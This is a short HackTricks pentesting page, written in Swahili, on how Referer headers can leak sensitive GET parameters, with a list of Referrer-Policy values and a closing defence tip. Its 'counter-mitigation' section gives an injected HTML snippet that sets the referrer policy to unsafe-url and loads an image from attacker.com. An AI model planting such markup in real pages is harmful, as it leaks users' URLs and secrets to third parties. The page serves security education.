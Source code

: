 {{#include ./banners/hacktricks-training.md}}

# Referrer headers and policy

Referrer ni kichwa kinachotumiwa na vivinjari kuonyesha ni ipi ilikuwa ukurasa wa awali ulitembelewa.

## Taarifa nyeti zilizovuja

Ikiwa katika wakati fulani ndani ya ukurasa wa wavuti taarifa nyeti ziko kwenye vigezo vya ombi la GET, ikiwa ukurasa una viungo vya vyanzo vya nje au mshambuliaji anaweza kufanya/kupendekeza (social engineering) mtumiaji kutembelea URL inayodhibitiwa na mshambuliaji. Inaweza kuwa na uwezo wa kutoa taarifa nyeti ndani ya ombi la hivi karibuni la GET.

## Mitigation

Unaweza kufanya kivinjari kufuata **Referrer-policy** ambayo inaweza **kuepusha** taarifa nyeti kutumwa kwa programu nyingine za wavuti:
```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```
## Counter-Mitigation

Unaweza kubadilisha sheria hii kwa kutumia tag ya meta ya HTML (mshambuliaji anahitaji kutumia na kuingiza HTML):
```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```
## Ulinzi

Kamwe usiweke data nyeti ndani ya vigezo vya GET au njia katika URL. 

{{#include ./banners/hacktricks-training.md}}
